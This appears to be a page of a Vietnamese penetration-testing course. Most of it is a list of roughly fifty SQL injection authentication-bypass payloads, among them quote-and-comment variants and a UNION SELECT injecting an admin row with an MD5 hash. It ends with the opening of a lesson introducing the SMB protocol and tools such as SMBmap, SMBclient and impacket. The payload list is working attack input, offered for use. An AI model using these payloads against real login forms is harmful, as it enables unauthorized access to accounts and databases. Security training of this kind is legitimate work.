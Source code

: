 ')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin" or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc
```
# Bài 12: Giao thức SMB và cách khai thác lỗi dựa vào SMBmap và SMBclient; giới thiệu impacket và những tài liệu tự học privilege escalation
## Giao thức SMB là gì?
SMB, viết tắt của Server Message Block Protocol, là một giao thức theo dạng server-client. Có nghĩa là server sẽ là máy chủ cung cấp dịch vụ và client sẽ là thiết bị cá nhân có nhu cầu sử dụng dịch vụ. 

Giao thức SMB được sử dụng cho các mục đích như truy cập dữ liệu, file, ảnh, nhạc, máy in được kết nối bên trong mạng và những tài nguyên khác được lưu trữ bên trong mạng. Các SMB servers sẽ là nơi lưu trữ các tài nguyên, và các máy clients khi cần sử dụng những tài nguyên này sẽ truy cập vào các SMB servers.

```